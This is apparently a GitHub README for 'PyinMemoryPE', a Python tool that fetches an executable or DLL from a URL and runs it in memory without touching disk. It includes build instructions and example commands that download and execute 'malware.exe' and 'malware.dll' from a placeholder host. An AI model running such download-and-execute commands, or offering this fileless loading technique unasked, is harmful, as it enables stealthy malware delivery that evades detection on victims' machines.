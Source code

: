 Greetings
# PyinMemoryPE
execute any PE (dll,exe) in memory filelessly


# usage

pyMemory.py < url> < TYPe >

# build into exe

use pyinstaller or nuitka and build pymemory.py

or use the prebuilt exe in ./output 

# example

exe : PyexecMemory.exe http://example.com/malware.exe EXE 

dll: PyexecMemory.exe http://example.com/malware.dll DLL --Method DLLRegisterServer

# Check form more info

https://github.com/naksyn/PythonMemoryModule

https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/
